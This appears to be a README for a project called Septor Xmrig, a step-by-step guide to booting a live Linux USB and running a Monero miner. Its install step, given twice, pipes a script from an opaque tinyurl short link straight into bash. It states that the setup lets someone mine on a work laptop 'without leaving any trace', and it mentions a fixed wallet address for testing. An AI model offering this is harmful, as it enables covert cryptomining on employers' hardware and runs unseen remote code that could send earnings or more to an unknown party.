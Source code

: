 # Septor Xmrig

WARNING: This is a beta version. It uses a fixed wallet address for testing purposes.


If you already have a Septor USB just run this command

```
wget -O- - tinyurl.com/4z5afjef | bash
```


## Full Installation

1. Download Septor from [SourceForge](https://sourceforge.net/projects/septor/files/download_/) This guid is tested with 2021.5 version.
1. Burn it to a USB drive using [Balena Etcher](https://www.balena.io/etcher/)
1. Start your PC and choose to boot from the USB stick. You may need to press F2, F10 or F12 at boot time.
1. Choose Live in the Septor menu.
1. After booting search for the Konsole application
1. Execute the install and mining script
```
wget -O- - tinyurl.com/4z5afjef | bash
```

## Hashrate

Once you have the miner running you can check the hashrate and calculate how much you can earn from this CPU.

## Motivation

Someone asked me: how can I mine with my work's laptop without leaving any trace on it?
That's why I'm using Monero, Septor and supportxmr.
